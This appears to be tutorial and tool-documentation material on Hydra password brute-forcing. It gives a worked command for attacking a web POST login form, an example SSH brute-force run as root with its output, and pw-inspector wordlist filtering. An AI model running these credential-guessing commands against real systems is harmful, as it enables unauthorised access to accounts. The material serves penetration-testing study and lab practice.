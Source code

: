 Below is a more concrete example Hydra command to brute force a POST login form:

`hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

- The login page is only `/`, i.e., the main IP address.
- The `username` is the form field where the username is entered
- The specified username(s) will replace `^USER^`
- The `password` is the form field where the password is entered
- The provided passwords will be replacing `^PASS^`
- Finally, `F=incorrect` is a string that appears in the server reply when the login fails

# Tool Documentation:

## hydra Usage Example

Attempt to login as the root user (`-l root`) using a password list (`-P /usr/share/wordlists/metasploit/unix_passwords.txt`) with 6 threads (`-t 6`) on the given SSH server (`ssh://192.168.1.123`):

```console
root@kali:~# hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 ssh://192.168.1.123
Hydra v7.6 (c)2013 by van Hauser/THC & David Maciejak - for legal purposes only

Hydra (http://www.thc.org/thc-hydra) starting at 2014-05-19 07:53:33
[DATA] 6 tasks, 1 server, 1003 login tries (l:1/p:1003), ~167 tries per task
[DATA] attacking service ssh on port 22
```

## pw-inspector Usage Example

Read in a list of passwords (`-i /usr/share/wordlists/nmap.lst`) and save to a file (`-o /root/passes.txt`), selecting passwords of a minimum length of 6 (`-m 6`) and a maximum length of 10 (`-M 10`):

```console
root@kali:~# pw-inspector -i /usr/share/wordlists/nmap.lst -o /root/passes.txt -m 6 -M 10
root@kali:~# wc -l /usr/share/wordlists/nmap.lst
5086 /usr/share/wordlists/nmap.lst
root@kali:~# wc -l /root/passes.txt
4490 /root/passes.txt
```

---

  

# Packages and Binaries:

### hydra

Hydra is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add.
